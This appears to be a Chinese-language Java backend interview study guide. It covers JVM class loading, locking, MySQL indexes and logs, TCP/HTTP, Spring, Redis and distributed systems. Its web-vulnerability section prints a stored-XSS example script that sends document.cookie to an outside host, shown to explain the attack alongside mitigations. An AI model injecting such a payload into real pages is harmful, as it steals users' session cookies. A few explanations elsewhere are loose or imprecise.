双亲委派模型的工作过程是：如果一个类加载器收到了类加载的请求，它首先不会自己去尝试加载这个类，而是把这个请求委派给父类加载器去完成，每一个层次的类加载器都是如此，因此所有的
加载请求最终都应该传送到最顶层的启动类加载器中，只有当父加载器反馈自己无法完成这个加载请求（它的搜索范围中没有找到所需的类）时，子加载器才会尝试自己去完成加载。

## HashTable和ConcurrentHashMap的区别

共同点：两个类都是线程安全的map集合。

HashTable跟HashMap代码实现基本一致，就是在HashMap的方法上面添加了Synchronized关键字。

ConcurrentHashMap是在jdk1.5之后提供的一个线程安全的map集合。在jdk1.8前采用的是分段锁实现了并发操作，提高了运行效率。在jdk1.8后，采用了cas算法实现线程并发。

## 乐观锁，悲观锁，排他锁（互斥锁，独占锁），共享锁，读写锁，统一锁，分段锁，自旋锁，偏向锁，轻量级锁，重量级锁

上面的这些锁是对java中的锁按照不同的方式进行的分类。

悲观锁：在运行并发代码之前先加锁，后运行，保证线程运行代码时不会被其他线程打断。

乐观锁：线程运行代码时不加锁，比较乐观，觉得其他线程不会打扰到自己。乐观锁是无锁算法，不加锁速度就会很快，但是一旦被其他线程打扰，这次操作就会作废。

排他锁：两个线程不能同时获取的锁就是排他锁。

共享锁：两个线程可以同时获取的锁就叫共享锁。

读写锁：在读写锁里面有两把锁，一个是读锁，另一个是写锁，读锁是共享锁，写锁是排他锁。一个线程不安全的集合，我们要对集合进行操作时，就可以创建一个读写锁。大家可以一块拿到读锁，实现同时读操作，但是一旦有一个线程拿到了写锁，其他线程就不能拿到读写锁了。这样就实现了集合的安全。

统一锁：锁的粒度很大，一旦有一个线程拿到这个锁了，其他线程都处于等待状态。

分段锁：把一把锁的粒度降低拆分成多把锁，不同的线程可以获取不同的锁，可以同时对数据进行操作。

自旋锁：无锁算法，在执行代码时不加锁，当发现异常后让cpu空转，来实现线程的等待。因为加锁和释放锁会导致性能的下降。

偏向锁，轻量级锁，重量级锁是synchronized底层的原理。在synchronized底层首先会选用偏向锁，锁偏向于某个线程，该线程执行同步代码块的时候没有锁，一旦有线程进行竞争了，偏向锁就会膨胀为轻量级锁，轻量级锁在没有多线程竞争时，相对重量级锁，减少操作系统互斥量带来的性能消耗。但是随着线程竞争激烈，这时候锁会再次膨胀为重量级锁。重量级锁就是有锁算法了。

## 说说你对AQS的理解

AQS：AbstractQueuedSynchronizer，是阻塞式锁和相关的同步器工具的框架，许多同步类实现都依赖于该同步器。

AQS 用状态属性来表示资源的状态（分独占模式和共享模式），子类需要定义如何维护这个状态，控制如何获取锁和释放锁。比如ReentrantLock就是用state存储0表示资源没有被线程获取，为1表示有一个线程获取，大于1表示重入次数。

AQS 核心思想：

- 如果被请求的共享资源空闲，则将当前请求资源的线程设置为有效的工作线程，并将共享资源设置锁定状态
- 请求的共享资源被占用，AQS 用队列实现线程阻塞等待以及被唤醒时锁分配的机制，将暂时获取不到锁的线程加入到队列中

CLH同步队列是一个基于双向链表的队列，AQS依赖它来完成同步状态的管理，当前线程如果获取同步状态失败时，AQS则会将当前线程已经等待状态等信息构造成一个节点（Node）并将其加入到CLH同步队列，同时会阻塞当前线程。当同步状态释放时，会把首节点唤醒（公平锁），使其再次尝试获取同步状态。

# 数据库

## **mysql的常见数据引擎（存储引擎）和区别**

mysql中数据引擎有很多，我们常见的是myisam和innodb。要注意存储引擎和存储过程的区别。

1. myisam是早期mysql默认的存储引擎。他会把表分成myd，myi，frm文件。而innodb是mysql5.5后默认的存储引擎，他把表里面的数据文件和索引文件进行了合并，存储到了聚簇索引里面。
2. myisam不支持外键，表里面不能创建外键，innodb可以创建外键。
3. myisam不支持事务，innodb支持事务。
4. myisam只能支持表锁，innodb支持的锁比较多，行锁，间隙锁，表锁
5. myisam应用在对速度和性能要求高的场景下面，不支持并发操作，innodb更注重于数据的完整性。

## **mysql的索引，聚集索引，回表，覆盖索引，索引重排，最左匹配**

```markdown
mysql的数据存储在磁盘上面，为了便于数据的检索，mysql提供了一种快速查找数据的结构来方便我们查找数据。这个数据结构是以树状存储的。这个树状的存储结构即是索引。mysql的索引采用的是b+树。最好能说出b+树和平衡二叉查找树的区别，以及和b树的区别。
聚集索引：一个表里面只能有一个聚集索引。在聚集索引的叶子节点上要存储具体的行数据信息。一般情况下，mysql会为这个主键创建聚集索引。
非聚集索引：一个表里面可以有多个非聚集索引，针对一般字段创建的索引就是非聚集索引，非聚集索引树上存储了索引信息，然后在叶子节点上存储了该索引对应的id信息。
回表：当我们查询mysql表中的数据时，我们通过非聚集索引查到了该数据对应的id值后，又关联到聚集索引上去根据id查询改行数据，这个过程就是回表。
覆盖索引：当我们写的sql语句查询的字段刚好是索引的字段以及主键，那么我们就可以避免回表查，这个操作就叫覆盖索引。
最左匹配：当我们针对两列创建了一个组合索引，那么我们必须在查询的时候使用组合索引中最左边的列作为查询条件，该组合索引才能生效。否则这个组合索引是无效的。
索引重排：由于改变了数据，导致索引树发生了重大的调整，从而影响到了修改的速度，这个就是索引重排，我们应该尽量的避免索引重排。我们使用mysql时应该尽量的使用自增主键，这样可以尽量的减少索引重排的几率，如果使用uuid这样的数据作为主键，就会导致索引重排的几率加大。
```

## **什么是数据库的事务，什么是脏读，不可重复读，幻读。**


事务有四个特性ACID：1.原子性，2.隔离性，3.一致性，4.持久性。原子性指的就是事务里面执行的增删改操作是一个原子操作，要么全部成功，要么全部失败。隔离性指的是两个事务之间同时操作数据库的时候有相应的隔离级别，可以限制事务与事务之间数据的影响。一致性指的是事务操作前和事务操作后数据必须是正确的。持久性指的是事务做完操作之后，数据就永久保存了，不会因为一些原因导致数据丢失。事务的这些特性会保证我们项目中数据的安全，不会因为一些异常导致数据出问题。

事务的隔离级别有四个：1.未提交读，2.已提交读，3.可重复读，4.序列化。未提交读会引起脏读问题。脏读就是指一个事务插入数据后，还没有提交事务的情况下，其他的事务就可以读到该数据，这就是脏读问题。已提交读解决了脏读的问题，但是没有解决不可重复读的问题。不可重复读指的是一个事务读两次相同的数据，发现两次读到的数据是不一致的。因为中间有其他的事务修改这个数据。为了避免不可重复读的问题，我们可以把事务的隔离级别提高到可重复读的级别。可重复读解决了不可重复读的问题，但是有幻读的问题，幻读是指一个事务读到数据库里面没有一条数据，在他插入该数据的时候突然发现数据库里面已经有这个数据了。数据库提供了序列化读的隔离级别，可以解决幻读问题。隔离级别越高，那么数据库的性能就会越低。

## **如何提高mysql的sql执行效率**

解决这个问题需要下面三个步骤：

1. 找到执行效率低的sql语句。有两个手段，第一是通过慢查询日志。我们在mysql打开慢查询日志，这样执行慢的sql语句就会被记录到我们的日志文件中。第二是通过show
   processlist来实时观察mysql正在运行的sql语句。
2. 分析sql语句运行效率低的原因.
   > mysql中提供了执行计划命令可以帮助我们观察一个sql语句执行时候经历了什么样的操作。比如用没有索引，回表了没有，索引下推了没有，我们都可以通过这个执行计划观察到。查看执行计划的命令是explain
   sql命令就可以了。通过explain的查询结果我们可以分析该sql语句是否使用到了索引，是否使用索引下推这些功能，然后针对性的进行性能的优化。
3. 优化sql。最左匹配原则，避免使用like，like有可能会导致索引失效。避免使用or。尽量使用覆盖索引。
   模型数空运最快，模糊查询，查询类型不匹配，字段上的函数运算，查询is null或者is not null，在字段上面做运算，都要尽量避免。

## 小表驱动大表

t1是小表 1W数据 t2是大表 10W数据&#x20;
如果大表放左边-->此时大表为驱动表:
select \* from t2 left join t1 on t1.a = t2.a;
当大表作为驱动表时，查询时间大约比小表作为驱动表时慢了一倍，从执行计划也能分析出，谁是驱动表谁就会进行全表扫描，所以这也是为什么要让小表作为驱动表的原因。

## MySQL中exists和in的区别

1. 子查询使用 exists，会先进行主查询，将查询到的每行数据循环带入子查询校验是否存在，过滤出整体的返回数据；子查询使用
   in，会先进行子查询获取结果集，然后主查询匹配子查询的结果集，返回数据
2. 外表内表相对大小情况不一样时，查询效率不一样：两表大小相当，in 和 exists 差别不大；内表大，用 exists 效率较高；内表小，用 in
   效率较高。
3. 不管外表与内表的大小，not exists 的效率一般要高于 not in。not in会让索引失效，而not exists会在内和外查询时都使用索引。

## MySQL优化方案有哪些

- 服务器优化（增加 CPU、内存、网络、更换高性能磁盘）
- 表设计优化（字段长度控制、添加必要的索引）
- SQL 优化（避免 SQL 命中不到索引的情况）
- 架构部署优化（一主多从集群部署，读写分离）

## 数据库三大范式

范式来自英文 Normal Form，简称
NF。要想设计—个好的关系，必须使关系满足一定的约束条件，此约束已经形成了规范，分成几个等级，一级比一级要求得严格。满足这些规范的数据库是简洁的、结构明晰的，同时，不会发生插入（insert）、删除（delete）和更新（update）操作异常。反之则是乱七八糟，不仅给数据库的编程人员制造麻烦，而且可能存储了大量不需要的冗余信息

数据库三大范式包含：第一范式(1NF)；2、第二范式(2NF)；3、第三范式(3NF)。

- 第一范式(1NF)的要求是属性不可分割
- 第二范式(2NF)的要求是满足第一范式，且不存在部分依赖；
- 第三范式(3NF)的要求是满足第二范式，且不存在传递依赖。

## MySQL的redolog、undolog、binlog都是干什么的？

- bin log 归档日志（二进制日志）

  作用：用于复制，在主从复制中，从库利用主库上的 binlog 进行同步。

  存储时机：在业务层中进行记录跟存储引擎没有关系。事务提交后将事务中所有的sql进行记录。

  内容：逻辑格式的日志，记录了执行过的事务中的 sql 语句。但又不完全是 sql 语句这么简单，而是包括了执行的 sql
  语句（增删改）反向的信息，也就意味着 delete 对应着 delete 本身和其反向的 insert；update 对应着 update执行前后的版本的信息。
- redo log 重做日志

  作用：确保事务的持久性。防止在发生故障的时间点，尚有脏页未写入磁盘，在重启 mysql 服务的时候，根据 redo log
  进行重做，从而达到事务的持久性这一特性。

  存储时机：在innodb中才有redo日志。所以他是在引擎层生效的。事务一开始执行的语句就会被放入到redo日志里面。

  内容：物理格式的日志，记录的是物理数据页面的二进制信息，在mysql修改数据的时候直接修改聚集索引的页节点会速度很慢，mysql会先把数据写到redo日志里面供异步线程再写到聚集索引树上。
- undo log 回滚日志

  作用：保存了事务发生之前的数据的一个版本，可以用于回滚，同时可以提供多版本并发控制下的读（MVCC），也即非锁定读

  存储时机：在引擎层有效。

  内容：逻辑格式的日志，在执行 undo 的时候，仅仅是将数据从逻辑上恢复至事务之前的状态，而不是从物理页面上操作实现的，这一点是不同于
  redo log 的。

# 计算机网络

## tcp/ip协议网络模型



```text
1.应用层：产生http协议请求数据，移交传输层处理。http协议就是应用层的协议。
2.传输层，有两个传输协议。udp和tcp协议。负责建立端对端的链接，负责数据的检测和恢复。
3.网络层。负责数据传输，选择传输的最佳路径和路由的逻辑选址。
4.网络接口层。工作在网卡层次，封装了mac地址，通过mac来找网络上的设备。
```

## udp和tcp的区别

```text
TCP提供面向连接的传输，通信前要先建立连接（三次握手机制）； UDP提供无连接的传输，通信前不需要建立连接。
TCP提供可靠的传输（有序，无差错，不丢失，不重复）； UDP提供不可靠的传输。
TCP主要应用在传输文件，邮件，网页，UDP应用在语音通话，视频直播。
```

## tcp的三次握手和四次挥手

```text
三次握手
第一次握手，客户端发送请求建立连接，请求报文段
第二次握手，服务器收到请求，发送同意并请求与客户端建立连接
第三次握手，客户端收到请求，发送同意与服务器建立连接
三次握手解决了信道不可靠的问题，不然，客户端认为建立一次链接，服务器端觉得建立了两次链接。

当客户端与服务器通过三次握手建立了TCP连接过后，当数据传送完毕，相应的就要断开TCP连接了，于是就有了四次分手的步骤。

四次分手
第一次分手，客户端发送断开请求
第二次分手，服务器收到断开请求，发送同意断开连接的请求
第三次分手，服务器发送请求断开连接
第四次分手，客户端收到，发送同意断开连接。客户端等待一会，等待超时后会断开链接。
为什么需要等待一会就是害怕服务器没有收到ack。
```

## WebSocket与HTTP的关系

```text
相同点：
1. 都是一样基于TCP的，都是可靠性传输协议。
2. 都是应用层协议。
区别：
 WebSocket是双向通信协议，模拟Socket协议，可以双向发送或接受信息。HTTP是单向的，客户端发送请求，服务器发送响应。当客户端向服务器发送请求时，该请求以HTTP形式发送，在接收到请求后，服务器会将响应发送给客户端。每个请求都与一个对应的响应相关联，在发送响应后客户端与服务器的连接会被关闭。
 websocket中服务器可以主动给客户端推送消息，而http必须先有请求再有响应。
应用场景：
WebSocket
1. 即时Web应用程序
2. 游戏应用程序
3. 聊天应用程序
HTTP
 只想获取一次数据供应用程序使用，不需要服务器主动推送消息。
```

## 常见的WEB漏洞有哪些？如何解决

常见的 WEB 漏洞一般指的是 OWASP TOP10 十大安全漏洞。比如 SQL 注入漏洞、XSS 漏洞。

- SQL 注入 大名鼎鼎，对于 Java 而言，通过 SQL 预处理轻松解决。
- 跨站请求伪造
  CSRF。攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。防范措施：1、验证
  HTTP Referer 字段。2、在请求地址中添加 token 并验证。
- 存储型 XSS 保存数据时未检测包含 js 或 html 代码，照成数据被读取并加载到页面时，会触发执行 js 或 html 代码。

样例：

```java
<script>
   document.getElementById('attacker').href='http://www.abc.com/receiveCookies.h
           tml?'+document.cookie;
</script>
```

解决：通过过滤器，对请求参数中的 Value 内容进行遍历，将转义为<和>。

## 什么是跨域请求，怎么解决

浏览器收到响应数据之后，会判断响应回数据的源和当前页面的源是否是属于同源。针对不同源，如果后端没有对响应字段进行处理，则响应回的数据会被浏览器直接过滤掉,并抛出异常。


协议，域名，端口三者其中存在不同都会形成跨域；故，当协议，端口，域名三者均相同时，浏览器就会认为是同源，允许加载该资源，否则为不同源。

解决办法是cors （跨域资源共享）：服务端设置响应头的 access-control-allow-origin 的值为允许请求的域（客服端的）或设置为
\*（即匹配任意域名，任意客户端都可访问）；即可获取到该服务端响应的跨域资源。

原因：

当响应数据从服务端回到浏览器时，浏览器得知客户端和服务端属于不同的域，但同时浏览器又看到响应数据的响应头中
access-control-allow-origin 的字段值是包含当前客户端地址或 \*，浏览器则不会对响应的数据进行过滤。

# JavaEE框架

## 过滤器和拦截器的区别

```markdown
1、使用范围与规范不同：Filter是Servlet规范中定义的，依赖于Servlet容器。拦截器是SpringMvc的组件，只有springMVC框架可以使用。
2、使用资源不同：拦截器可以使用Spring里的任何资源、对象，例如Service对象、数据源、事务管理等，通过IOC注入到拦截器即可；而Filter没有被spring管理，他不能注入spring的bean对象。
3、作用范围不同：Filter在只在Servlet前后起作用。而拦截器对控制器请求起作用。过滤器可以拦截任意资源包括，servlet，静态资源html,css，js。拦截器只能拦截springMVC的控制器方法。
4、实现机制不同：拦截器是基于java的反射机制的，而过滤器是基于函数回调。
```

## **mybatis中取值方式有几种？各自的区别是什么？**

```markdown
#{}和${}的区别

1. #{}相当于sql语句的占位符，他的执行效率和安全性都比字符串拼接要好。
2. ${}相当于字符串拼接，更加灵活。可以应用在sql中的关键字。 select * from 表 order by ? 这个场景可以应用在${}上。
```

## **mybatis的一级缓存和二级缓存**

```markdown
1. mybatis中默认带了一级缓存，自动就使用了一级缓存。一级缓存是跟sqlSession相关的缓存。当我们使用同样的sqlSession去执行相同的查询sql那么一级缓存就会生效。一级缓存应用场景不多，几乎用不到。
2.
mybatis的二级缓存不是默认打开的，需要我们手动设置开启二级缓存。二级缓存是跟SqlSessionFactory相关的缓存。只要是同一个sqlSessionFactory创建的sqlSession对象执行的sql语句都共用这个二级缓存。
```

## **谈谈对spring框架的理解。IOC、DI和AOP**。

```markdown
IOC、DI：
  IoC（Inversion of Control） 控制反转，是一种设计思想，而不是一个具体的技术实现，IoC 的思想就是将原本在程序中手动创建对象的控制权，交由 Spring 框架来管理。将对象之间的相互依赖关系交给 IoC 容器来管理，并由 IoC 容器完成对象的注入。这样可以很大程度上简化应用的开发，把应用从复杂的依赖关系中解放出来。 IoC 容器就像是一个工厂一样，当我们需要创建一个对象的时候，只需要配置好配置文件或注解即可，完全不用考虑对象是如何被创建出来的。IoC 容器实际上就是个 Map（key，value），Map 中存放的是各种对象，而这些由IoC容器管理的对象又称之为Bean。DI（Dependency Injection）依赖注入，IoC就是通过依赖注入来实现的，通过注入的方式将IoC容器中的对象赋值给目标属性。依赖注入有三种方式：

1、属性注入：通过在目标属性上加@Autowired注解来实现。

2、setter注入：在目标属性的set方法上添加@Autowired注解来实现。

3、构造方法注入：通过在构造函数上添加@Autowired注解来实现，如果当前类中只有一个构造方法，那么 @Autowired 也可以省略

  属性注入使用起来简单但是无法注入final 修饰的对象；setter注入相比较属性注入，同样不能注入一个final修饰的对象，但是被注入的对象在注入前可以被修改；使用构造方法注入可以注入final修饰的对象，同时被注入的对象在注入前可以被修改；


aop：
  AOP（Aspect Oriented Programming）指的是面向切面编程，通过预编译方式和运行期动态代理实现在不修改源代码的情况下给程序动态统一添加某种特定功能的一种技术，可以实现比如日志记录、事务管理、性能统计和权限控制等功能。SpringAOP是基于动态代理来实现的，它分为两种代理方式，一种是JDK动态代理，一种是CGLIB动态代理。如果要代理的对象，实现了某个接口，那么 Spring AOP 会使用 JDK动态代理去创建代理对象，而对于没有实现接口的对象，就无法使用 JDK动态代理去进行代理，这时候 Spring AOP 会使用 Cglib动态代理 生成一个被代理对象的子类来作为代理。JDK动态代理的底层是使用反射生成一个实现目标类接口的代理类，而Cglib动态代理是使用字节码技术将目标类加载进来通过修改字节码来生成代理类。
```

## **Spring AOP 和 AspectJ AOP 有什么区别**

```markdown
Spring AOP 属于运行时增强，而 AspectJ 是编译时增强。Spring AOP 基于动态代理来实现的，而 AspectJ 基于字节码操作来实现的。如果我们的切面比较少，那么两者性能差异不大。但是，当切面太多的话，最好选择 AspectJ ，它比 Spring AOP 快很多。
```

## **@Autowired和@Resource注解的区别**

```markdown
二者都是用来实现依赖注入的。但是，

@Autowired是Spring提供的注解，支持属性注入、setter注入、构造方法注入，注入的对象是通过类型进行查找的，如果一个类型存在多个Bean再根据名称进行查找；

@Resource是JDK提供的注解，只支持属性注入、setter注入，注入的对象是通过名称进行查找的，如果通过名称没有找到会再通过类型进行查找。
```

## **spring常见的注解有哪些?**

```markdown
组件注解：

​ @Controller @Service @Repository @Component @Bean @Configration @Scope

装配注解：

​ @Autowire @Resource @Value

aop注解：

​ @Aspect @Before @After @Pointcut @Transcational

Mvc注解：

​ @RestController @RequetMapping @PathVariable @RequestBody @RequestParam
```

## SpringMVC处理请求的流程


  
```markdown
1、客户端（浏览器）发送请求，DispatcherServlet拦截请求。

2、DispatcherServlet根据请求信息调用HandlerMapping。HandlerMapping根据URL去匹配查找能处理的Handler（也就是我们平常说的Controller控制器），并会将请求涉及到的拦截器和Handler一起封装。

3、DispatcherServlet调用HandlerAdapter适配器执行Handler，在执行Handler之前会先执行前置拦截器preHandle处理，执行完Handler之后会执行后置拦截器postHandle处理。

4、Handler完成对用户请求的处理后，会返回一个ModelAndView对象给DispatcherServlet，ModelAndView顾名思义，包含了数据模型以及相应的视图的信息。Model是返回的数据对象，View是个逻辑上的View。

5、ViewResolver会根据逻辑View查找实际的View。

6、DispaterServlet把返回的Model传给View（视图渲染），然后执行拦截器的最终操作afterCompletion处理。

7、把View返回给请求者（浏览器)。
```

## **springboot的starter机制**（自动装配）

```markdown
springboot的starter机制依靠于自动装配来实现的，就是在Springboot的帮助下通过一些少量注解或简单的配置就可以完成第三方依赖的注入，减少了配置第三方依赖的麻烦。使用方式就是在第三方依赖的META-INF文件中创建一个spring.factories文件，其中写入当前依赖中配置类的全类名，之后在主项目中引入这个依赖就可以通过注解的方式注入这个依赖来使用，因为主项目的SpringBootApplication注解包含有EnableAutoConfiguration注解来启动自动配置，EnableAutoConfiguration注解中的Import注解会去读取整个项目中包含第三方依赖中的spring.factories配置文件，在这个配置文件中有个配置项指向了第三方依赖的配置类@Configuration，在这个配置类中，第三方依赖会把要管理的对象都配置成@Bean注解。
```

## **spring中bean对象的生命周期**

```markdown
整体来说生命周期分为实例化->属性赋值->初始化->使用->销毁五个阶段，但是有其他的扩展如下：

1、BeanDefinition：Bean容器找到Bean并且将Bean的定义加载进容器里。

2、postProcessBeanFactory()：对BeanDefinition进行后处理。

3、postProcessBeforeInstantiation()：执行实例化之前的方法。

4、实例化：Bean容器通过反射将Bean定义实例化。

5、postProcessAfterInstantiation()：执行实例化之后的方法。

6、属性赋值：对Bean实例里面的属性进行赋值。

7、setBeanName()：设置Bean的名称。

8、setBeanFactory()：设置BeanFactory。

9、postProcessBeforeInitialization()：执行后置Bean处理中的初始化之前的方法。

10、初始化：调用afterPropertiesSet()初始化Bean对象。

11、init-method：自定义的init方法。

12、postProcessAfterInitialization()：执行后置Bean处理中的初始化之后的方法。

13、使用：使用初始化完成的Bean对象。

14、销毁：调用destroy()方法销毁Bean对象。

15、destroy-method：自定义的destroy方法。
```

&#x20;

## Spring中有哪几种方式把bean对象交给IOC容器

```java
1.Bean注解加上，Configuration
        2.使用Component注解。
        3.使用Import注解，可以导入一个普通的类，也可以导入一个ImportSelector
        4.可以实现FactoryBean接口。
        5.可以实现BeanDefinitionRegistryPostProcessor接口，手动向容器中注册BeanDefinition  
```

## SpringBoot启动过程


```java
运行main方法，启动springboot程序，会先new一个SpringApplication对象，在对象的构造方法中会进行一些参数的初始化工作，比如获取启动运行过程中的各种监听器。运行run方法，读取环境变量、配置信息等等，然后创建SpringApplication上下文，执行prepareContext方法将启动类作为配置类读取，将所有的配置类注册为BeanDefinition，之后执行refresh方法加载ioc容器，执行invokeBeanFactoryPostProcessor方法解析@Import注解，加载所有的自动配置类，之后执行onRefresh方法加载内置的Servlet容器创建一个内置的Tomcat，在这个过程中springboot会调用很多的监听器对外进行扩展。
```

## **spring如何使用三级缓存解决循环依赖的问题。**

```markdown
当A对象依赖B对象，B对象又依赖A对象这时候就产生了循环依赖的问题。
一级缓存里面放的是spring创建的完整的对象，对象的各个属性都已经有值了。
二级缓存里面放的是spring刚创建的对象，这些对象的属性可能没有值。
三级缓存存放需要spring对象的动态代理的代码。当对象需要动态代理的时候通过三级缓存可以获取到代理对象。
```

## Spring事务失效的几个场景

1. 抛出检查异常导致事务不能回滚
    1. Spring默认只能回滚运行时异常。
    2. 解决办法就是配置rollbackfor属性
2. 业务方法内自己处理了异常
    1. 事务通知类中只有捕捉到异常后才有可能事务回滚，在业务类中自己把异常处理了就相当于没有异常发生。
    2. 解决办法是捕捉到异常处理后再手动抛出一下。
3. 非public方法导致事务失效
    1. Spring为方法添加代理，添加事务通知的前提是业务方式必须是public
    2. 解决办法就是把方法改为public
4. 调用本类中的其他方法会导致事务失效。
    1. 本类中的其他方法调用时不会经过代理，因此无法增强。
    2. 把自己通过注入的方式作为属性，然后调用方法。

## springBoot中的定时任务

定时任务是指不用用户调用，直接在定点时间执行的方法就是定时任务。入口类上面添加@EnableScheduling，然后业务方法上面添加@Scheduled(
cron = "0 9 11 ? \* \*")

应用场景：

1.定时秒杀，2.每天凌晨删除验证码次数。3.定时签到。4.没有接收到ack应答的消息的重复发送。

在分布式环境中我们要解决定时任务重复执行的问题，这时候我们可以选用一些定时任务框架。比如XXL-JOB，这个框架可以避免定时任务重复执行。

## Spring框架中的单例bean是线程安全的吗?

大部分时候我们并没有在系统中使用多线程，所以很少有人会关注这个问题。单例bean 存在线
程问题，主要是因为当多个线程操作同一个对象的时候，对这个对象的非静态成员变量的写操 作会存在线程安全问题。

有两种常见的解决方案：

1. 在 bean 对象中尽量避免定义可变的成员变量（不太现实）。
2. 在类中定义一个 ThreadLocal 成员变量，将需要的可变成员变量保存在 ThreadLocal中（推 荐的一种方式）。

## Spring中的设计模式有哪些?

- 工厂模式：Spring使用工厂模式通过BeanFactory和ApplicationContext创建bean对 象。
- 单例模式： Spring 中的 bean 默认都是单例的。
- 代理模式：Spring 的 AOP 功能用到了 JDK 的动态代理和 CGLIB 字节码生成技术；
- 模板方法： 用来解决代码重复的问题。比如 RestTemplate、jdbcTemplate、JpaTemplate 等以 Template 结尾的对
  数据库操作的类，它们就使用到了模板模式。
- 观察者模式： Spring 事件驱动模型就是观察者模式很经典的一个应用。定义对象键一种一对多的依赖关系，当一个对象的状态发生改变时，所有依赖于它的对象都会得到通知被制动更新，如Spring
  中 listener 的实现 ApplicationListener。
- 包装器设计模式：我们的项目需要连接多个数据库，而且不同的客户在每次访问中根据需要
  会去访问不同的数据库。这种模式让我们可以根据客户的需求能够动态切换不同的数据源。
- 适配器模式：Spring AOP 的增强或通知（Advice）使用到了适配器模式、Spring MVC 中也是用到了适配器模式适配 Controller。

# 分布式

## **缓存击穿，穿透，雪崩**

1. 缓存的目标是提高程序的运行效率。mysql并发量过大，我们可以把数据放入到redis里面来分摊mysql的压力。
2. 缓存击穿是指缓存的热点数据到期了，同时并发查询该数据的线程都涌向数据库，导致数据库压力瞬间倍增。这个就是缓存击穿。缓存击穿的应对手段：1.缓存永不过期。2.使用锁（本地锁，分布式锁）。
3. 缓存穿透是指数据库被恶意攻击，客户端每次查询的都是mysql中不存在的数据。解决办法：1.在redis里面把不存在的数据也缓存起来。2.使用布隆过滤器。
4. 缓存雪崩指的是redis里面缓存的数据同时到期，导致查询数据都来到mysql这。这就是缓存雪崩。解决手段：设置有效时长时可以使用随机数。

## **为什么要使用Redis,Redis基本数据类型,Redis的持久化机制。**

redis是一个内存型的存储了key-value格式的非关系型数据库。他的运行速度比mysql要快很多。redis常见的数据类型：string,list,set,zset,hash。

1. 字符串应用最广，缓存数据可以使用字符串，我们将java的对象转换为json串存储到redis里面。incr和decr可以实现数字的自增和自减，从而实现粉丝数。
2. list里面可以获取第一个元素，可以往最后一个元素后放数据，所以他可以实现队列的效果。
3. set里面可以求交集和并集所以我们可以用set实现共同好友和推荐好友。
4. zset在保存数据的是有一个分值，所以我们可以用zset实现排行榜功能。
5. hash他可以应用在存储对象，用它来存储对象比string更好的地方是可以对某个属性进行独立的操作。

&#x20;
redis的持久化是指：redis的数据都在内存中存储，内存的数据都是临时的数据，当硬件断电后数据都会被销毁掉。redis如何实现断电后数据的恢复就是redis的持久化机制。redis有两种持久化手段。第一种叫快照持久化，快照持久化生产的文件后缀是rdb，所以又被称为rdb持久化。第二种持久化叫日志持久化，生产的文件后缀为aof，所以又被称为aof持久化。

## **cap定理和base定理是什么？**

cap是指一个项目的三个特性：p表示分区容错性，a表示的是可用性，c表示的是一致性。

分区容错性指定的是一个项目他被拆分到多个服务上面，就是一个分布式环境，需要各个服务器之间进行通信。我们现在做的项目都需要满足分区容错性。只要你的系统不是一个单机环境，你都要满足分区容错性。

可用性：可用性指的是系统的是否可用正常运行。不会因为一些原因导致系统不做响应。互联网项目的特点是用户至上，所以要满足用户的可用性。银行项目因为涉及到金钱的问题，有些情况会放弃掉可用性。

一致性：系统中的数据不能出错。比如，用户下了一个订单，库存里面的商品就要减一。比如商城类项目用户买完商品后，他的积分要增加。

cap理论研究发现：一个系统的三个特性永远不会同时都满足，我们在开发项目的时候只能选择性的丢弃掉一个特性。ca系统，ap系统，cp系统。ca系统比较少见，军事上一些系统可能会做成ca系统，先保证可用性和一致性。ap系统，互联网性的项目都是ap系统，cp系统经常应用在银行系统中。

base理论就是基于cap理论进行了进一步的阐述：

ba:基本可用，s：软状态。e：最终一致性。

在目前开发环境，分区容错性一定是需要满足的。我们就需要从一致性和可用性进行取舍。base理论要求我们要先满足可用性，使我们的系统达到基本可用。一致性可用适当的放弃。但是一致性不能完全放弃，需要有一个软状态，软状态就是系统数据的不一致状态。这个软状态可用根据情况有一定时限，到达时限后，需要数据一致。这就是最终一致性。

## **分布式事务的解决方案**

分布式事务是要解决在分布式环境中两个服务做不同的操作，能够相互影响，从而保持数据的一致性，不能一个项目事务成功，一个项目事务失败造成数据不一致。

常见的分布式事务有下面三种方式：

1. 2pc：2阶段提交。是指把事务提交分两个阶段，统一有事务管理器TM来控制。这种是强一致性类型的。
2. TCC事务补偿。基于base定理实现了最终一致。先提交各个服务的事务。一旦有一个出现异常，然后就采取事务补偿手段对事务进行回滚。
3. 依据可靠性消息完成分布式事务。

   rabbitmq中有可靠性消息投递。可以保证生产者生成的消息一定能被消费者消费。

   rabbitmq里面有个ack应答机制。生产者生产完消息后，mq会对接收到的消息进行应答。生产者对哪些没有应答的消息进行重试操作。

   消费者，消费完消息后也给mq做ack应答。消息队列才把这个消息删除。

   MQ里面做持久化操作防止消息的丢失。

## **如何保证接口的幂等性。**

接口幂等性：我们的控制器接口对外公布服务，外界客户端在请求我们接口，不管请求几次，得到结果跟请求一次是一样的效果，这就是保证了接口幂等性。如果请求了多次，结果产生了问题就违反了接口幂等性。

1. 前端处理，用户点击按钮后，让按钮不能重复点击。
2.
可以使用token处理接口幂等性。我们在前端发请求之前会得到一个token（有服务器端生成的一个唯一标记交给客户端保存），前端发请求的时候可以带着token，我们在redis里面判断这个token是否存在，如果存在就不是第一次请求，如果不存在就是第一次请求。setNx()
不存在的时候放入，存在了就不放入。
3. 不是所有的方法都需要判断接口幂等性的，查询和删除都是天然满足接口幂等性的方法。不满足接口幂等性的方法，我们也会选择性的进行接口幂等性的判断。

## **如何使用redis实现分布式锁。**

redis有一个java连接redis的客户端工具叫Redisson。这个工具提供了相应的分布锁的获取办法。我们拿到锁后，就像使用本地锁一样使用它。面试官一定会追问底层实现原理。Redisson会在redis里面创建一个锁标记，就是一个key和value。所有的微服务都去拿这个锁标记，谁拿到谁运行。

1. 防止死锁问题，给锁增加一个有效时长。可以防止死锁。
2. 如何保证java操作redis时多个命令是一个原子操作，一块执行成功或者一块执行失败。我们可以使用java操作lua脚本实现多个redis命令是一个原子操作。
3.
如何解决有效时长内业务逻辑没有完成的问题。redisson底层使用了看门狗机制。看门狗就是在加完锁后，开启一个定时线程，每隔3秒往redis里面发送延期申请。因为主线程和看门狗线程在一台机器上运行，这样就可以避免死锁问题 。

## **如何保证缓存的一致性。**

1. 设置缓存有效期。（对数据一致性要求不高情况）
